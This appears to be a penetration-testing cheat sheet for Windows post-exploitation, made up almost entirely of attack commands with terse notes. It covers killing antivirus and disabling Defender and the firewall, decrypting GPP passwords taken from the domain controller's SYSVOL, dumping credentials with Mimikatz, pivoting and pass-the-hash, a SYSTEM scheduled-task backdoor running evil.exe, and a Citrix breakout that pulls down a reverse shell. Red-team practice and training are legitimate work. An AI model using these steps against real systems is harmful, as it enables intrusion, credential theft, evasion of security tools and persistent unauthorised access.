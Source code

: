 ```whoami```

```net user /whoami```

```whoami /priv```

```ipconfig```

```systeminfo```

```wesng```

What architecture?

Run enum script

Upload accesschk if not present

Run Batch or PS scripts

#### Identify  IP and name of internal DC ####

##### Map DC drive to local #####

```net use z: \\$dc\sysvol```

```z:```
##### Search for interesting files #####

```dir /s Groups.xml```

##### If getting this far, copy to local and decrypt #### 

```gpp-decrypt $hash```

#### AV Running? I can killz?

```tasklist /svc```

```tasklist /svc | find /I “avg”```

##### Powershell #####

```Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $name```

##### Batch #####

```wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayNamed```

```sc stop $process```

```sc config "service name" start= disabled```

```taskkill /F /IM $avprocess.exe```

```net stop “service name"```

#### Command Execution Restrictions ####

Check lolbas

##### rundll32? #####

```rundll32 $full_path_to_evil.dll,EntryPoint```


##### FW? #####

```netsh firewall show opmode```

```netsh firewall set opmode mode=disable```


##### Stop WInDefend Monitoring #####

```Set-MpPreference -DisableRealtimeMonitoring $true```

##### Migrate Meterpreter 32 -> 64 bit

meterpreter: ```ps -S "winlogon"```

meterpreter: ```migrate $new_pid```

##### Mimikatz

meterpreter: ```load mimikatz```

meterpreter: ```msv```

meterpreter: ```kerberos```

### Pivot 

#### Meterpreter 

1. Note IP address

2. Exit shell

3. Background Meterpreter

4. ```route add 10.10.0.0 255.255.255.0 $sessionNumber```

NOTE: *10.10.0.0 indicates the target internal network*

5. Reconnect to session

6. portfwd add -l $local_port -p $remote_port -r $target_ip 

##### Pass the Hash (PTH)

1. Acquire password

2. Get winexe

3. Set up port forward if required

4. ```Kali:~# winexe -U $username%password //127.0.0.1 "cmd"```

#### Once Admin Set Up Persistent Backdoor

NOTE: *pwn == Task name*

```schtasks /create /ru SYSTEM /sc minute /MO 10 /tn $pwn /tr "\C:\evil.exe""```

```C:\ exit```

```meterpreter: portfwd delete -l $local_port -p $remote_port -r $target_ip ```

```background```

Start new handler and wait

#### Citrix

Login

What apps are available?

Open other programs?

##### Example: Internet Explorer #####

Click Help

Open notepad

Save 'powershell' to .bat file

Use Notepad again to open .bat (Run it)

Download new reverse shell

Handle with meterpreter

#### Elevate Existing Process via privesc exploit

Get meterpreter pid

```meterpreter: getpid```

```meterpreter: execute -H -f evil.exe -p "-pid $pid"```


